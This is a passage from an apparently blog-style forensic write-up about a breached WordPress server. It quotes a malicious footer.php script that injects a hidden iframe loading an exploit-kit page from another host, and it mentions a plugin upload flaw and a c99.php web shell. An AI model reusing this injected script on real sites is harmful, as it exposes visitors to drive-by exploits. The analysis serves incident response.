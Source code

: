 where the attacker used a theme editor to edit the content of the footer, so let's investigate the footer.php code.

```
<script>
if (document.getElementsByTagName('body')[0]){ iframer();
} else {
  document.write("<iframe src='http://blog.mysportclub.ex/wp-content/uploads/hk/task/opspy/index.php' width='10' height='10' style='visibility:hidden;position:absolute;left:0;top:0;'></iframe>");
 }

function iframer(){
  var f = document.createElement('iframe'); f.setAttribute('src', 'http://blog.mysportclub.ex/wp-content/uploads/hk/task/opspy/index.php');      
  f.style.visibility = 'hidden';
  f.style.position = 'absolute';
  f.style.left = '0';
  f.style.top = '0';
  f.setAttribute('width', '10');
  f.setAttribute('height', '10'); document.getElementsByTagName('body')[0].appendChild(f);
}
</script>
```

We can find this Iframe embedded at the end of the footer, which is responsible for redirecting us to the site "blog.mysportclub.ex" which hosts the exploit kit.

Investigating more in the machine I found nothing suspicious outside the context of the website content and the auth logs have no signs of any suspicious logins which indicates that the attacker hasn't gained more privileges in the server.

## mysportclub server

This web server is also a WordPress over Apache, By looking at "access.log" I spotted some interesting stuff happening, After a scan using "WPScan" there is a post request using "curl" to an endpoint in the "work-the-flow-file-upload" plugin then there is access to the famous "c99.php" web shell which may be uploaded using a vulnerability in "work-the-flow-file-upload" plugin. 

![Error](/assets/images/forensic-investigation/Breach_Investigation/vuln.png)
